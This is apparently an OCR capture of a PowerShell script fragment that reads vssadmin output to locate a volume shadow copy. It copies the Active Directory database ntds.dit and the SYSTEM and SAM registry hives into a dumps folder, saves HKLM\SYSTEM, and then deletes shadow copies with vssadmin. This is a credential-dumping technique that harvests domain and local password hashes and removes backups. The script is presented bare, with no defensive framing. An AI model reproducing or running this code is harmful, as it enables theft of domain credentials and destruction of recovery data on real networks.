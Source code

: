 ForEach($line in $snapshot)  
{  
    #$line  
    if($line.Contains("Shadow Copy ID:"))  
    {  
        $split = $line.Split(":")  
        $vssID = $split\[1\].Replace('{','').Replace('}','')  
        $vssID = $vssID.trim()  
    }  
    if($line.Contains("Shadow Copy Volume Name:"))  
    {  
        $split2 = $line.Split(":")  
        $volume = $split2\[1\]  
    }  
}

if( $state1.Contains("No items found that satisfy the query.") )  
{  
    #we can assume this is the first snapshot  
    cd .\\dumps  
    $cmd = @"  
    copy $volume\\windows\\ntds\\ntds.dit .  
"@  
    CMD /C $cmd  
    $cmd = @"  
    copy $volume\\windows\\system32\\config\\SYSTEM .  
"@  
    CMD /C $cmd     
    $cmd = @"  
    copy $volume\\windows\\system32\\config\\SAM .  
"@  
    CMD /C $cmd  
    reg SAVE HKLM\\SYSTEM .\\SYS  
}

if( $state.Contains("No items found that satisfy the query.") )  
{  
    $delete1 = vssadmin delete shadows /for=C: /All /Quiet  
}  
else{  
    #not working ????  
    $cmd = @"  
    vssadmin delete shadows /for=C: /shadow=$vssID  
"@  
    CMD /C $cmd  
}

$state3 = vssadmin list shadows

if($state1 = $state3)  
{ "States ok" }

########################  
\## End of script #######  
########################
